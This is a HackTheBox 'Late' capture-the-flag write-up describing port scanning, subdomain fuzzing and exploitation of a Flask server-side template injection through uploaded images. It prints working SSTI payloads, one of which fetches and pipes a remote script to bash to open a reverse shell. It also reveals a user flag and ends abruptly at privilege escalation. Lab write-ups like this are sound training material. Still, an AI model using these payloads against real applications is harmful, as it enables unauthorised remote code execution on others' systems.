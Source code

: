 # Late 
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5f238aa8-4222-42c6-8b9f-a9a9ed488089)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.156 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-16 00:03 PDT
Nmap scan report for late.htb (10.10.11.156)
Host is up (0.072s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 025e290ea3af4e729da4fe0dcb5d8307 (RSA)
|   256 41e1fe03a5c797c4d51677f3410ce9fb (ECDSA)
|_  256 28394698171e461a1ea1ab3b9a577048 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.66 seconds
```

1. Based from the nmap results, the machine runs a web application service and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9fb306c7-1739-4dc5-80cc-b8f9cbad4ac2)


2. Scrolling down, there's another link which redirects to another subdommain --> images.late.htb.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f2b77347-64f0-4ef0-8181-45eb4a5ddff1)


> images.late.htb

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/007a61cf-d04c-4d43-ab18-d7f339278b24)


> Running wfuzz to check another subdomain --> found only images.late.htb.

```
wfuzz -u "http://late.htb" -H "Host: FUZZ.late.htb" -w SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hh 9461
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/cf0e6f3e-68b4-4bc7-9c3b-ee01891249e8)


3. Interesting, since it said that it built with Flask, hence it could related to SSTI vuln.
4. Let's check that by uploading a file which has regex operation such --> {{ 7*7 }}.
5. I used [this](https://smallseotools.com/text-to-image/) online tool to convert text to image with ease.
6. After uploaded the image, automatically we got this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/517934d4-4034-4c13-b418-75f11326dab7)


```
┌──(brandy㉿bread-yolk)-[~/Downloads]
└─$ cat results.txt
<p>49
</p>
```

7. Great! This should be our foothold.
8. Let's try to run simple SSTI payload to check whether there is filter.

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bf026a13-e379-4b42-925b-5d8a5d5c5198)


9. To fix this I tried to change the font to monospace, background color to black, font color to white, and zoom level max.

```
┌──(brandy㉿bread-yolk)-[~/Downloads]
└─$ cat results.txt
<p>uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)

</p>
```

10. Nice! Even the basic payload is executed, let's send our reverse shell payload.

> PAYLOAD

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/196cd6f7-d671-42df-b3fc-065922cfa3ee)

> What to send

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl 10.10.16.20/f | bash').read()}}
```

#### NOTES:

```
Change "bash" to "sh" won't work. 
```

11. So what to do now is, convert the SSTI payload to image file, then set a listener on port 1337, lastly set python server (because we want to curl a file from our local machine). Send the image.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b1965299-eae7-4c51-a421-787e0890eb55)


> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c3168416-af54-4364-bf99-f43101944c80)



## USER FLAG

```
abb776efaca5d2c498c0340369be1cb1
```

12. To do privesc, it's easier by running linpeas first to check for possible paths to escalate privileges.
13. Let's get a stable shell first so we can simply send linpeas to the target server.

> FOUND RSA KEY PAIR at the user home dir.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/72a198ac-6b4c-4103-b0f5-2645eed15f0e)


14. 


